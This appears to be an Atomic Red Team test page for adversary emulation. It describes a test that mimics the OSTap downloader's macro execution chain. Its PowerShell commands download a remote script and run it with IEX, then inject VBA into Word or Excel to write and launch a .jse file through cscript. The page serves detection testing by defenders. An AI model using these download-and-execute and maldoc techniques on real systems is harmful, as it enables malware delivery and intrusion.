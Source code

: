 - [Atomic Test #10 - LNK Payload Download](#atomic-test-10---lnk-payload-download)

- [Atomic Test #11 - Mirror Blast Emulation](#atomic-test-11---mirror-blast-emulation)


<br/>

## Atomic Test #1 - OSTap Style Macro Execution
This Test uses a VBA macro to create and execute #{jse_path} with cscript.exe. Upon execution, the .jse file launches wscript.exe.
Execution is handled by [Invoke-MalDoc](https://github.com/redcanaryco/invoke-atomicredteam/blob/master/Public/Invoke-MalDoc.ps1) to load and execute VBA code into Excel or Word documents.
This is a known execution chain observed by the OSTap downloader commonly used in TrickBot campaigns.
References:
  https://www.computerweekly.com/news/252470091/TrickBot-Trojan-switches-to-stealthy-Ostap-downloader

**Supported Platforms:** Windows


**auto_generated_guid:** 8bebc690-18c7-4549-bc98-210f7019efff





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| jse_path | Path for the macro to write out the "malicious" .jse file | string | C:&#92;Users&#92;Public&#92;art.jse|
| ms_product | Maldoc application Word or Excel | string | Word|


#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "   Open `"#{jse_path}`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   Shell`$ `"cscript.exe #{jse_path}`"`n"
Invoke-MalDoc -macroCode $macrocode -officeProduct "#{ms_product}"
```

#### Cleanup Commands:
```powershell
Remove-Item #{jse_path} -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft #{ms_product} must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
```
